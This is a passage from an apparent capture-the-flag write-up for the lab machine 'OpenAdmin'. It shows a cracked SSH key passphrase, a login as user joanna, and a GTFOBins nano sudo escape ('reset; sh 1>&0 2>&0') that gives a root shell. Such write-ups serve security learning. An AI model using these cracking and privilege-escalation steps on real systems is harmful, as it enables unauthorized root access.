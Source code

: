 ```
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa_joanna_enc)     
1g 0:00:00:03 DONE (2022-04-02 19:22) 0.2994g/s 2866Kp/s 2866Kc/s 2866KC/s bloodninjas..bloodmore23
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Now that we have the key and the password for the key, we can login as user joanna and grab user.txt flag.  
```
[root@kali keys ]$ ssh -l joanna $TARGET -i id_rsa_joanna_enc
Enter passphrase for key 'id_rsa_joanna_enc':
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Apr  3 10:21:11 UTC 2022

  System load:  0.0               Processes:             172
  Usage of /:   31.0% of 7.81GB   Users logged in:       1
  Memory usage: 14%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

39 packages can be updated.
11 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Apr  2 17:25:45 2022 from 10.10.14.24
-bash: warning: setlocale: LC_ALL: cannot change locale (en_GB.UTF-8)
joanna@openadmin:~$
```

## Root
Now, as we found in earlier enumeration stages, we can leverage sudo to gain root access.  
```
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
Let's check [GTFOBins for nano](https://gtfobins.github.io/gtfobins/nano/#sudo) with sudo, and follow the below steps documented on GTFOBins.  
```
sudo /bin/nano /opt/priv
^R^X
reset; sh 1>&0 2>&0
```
And as we type we get a shell as root
```
# id
uid=0(root) gid=0(root) groups=0(root)
```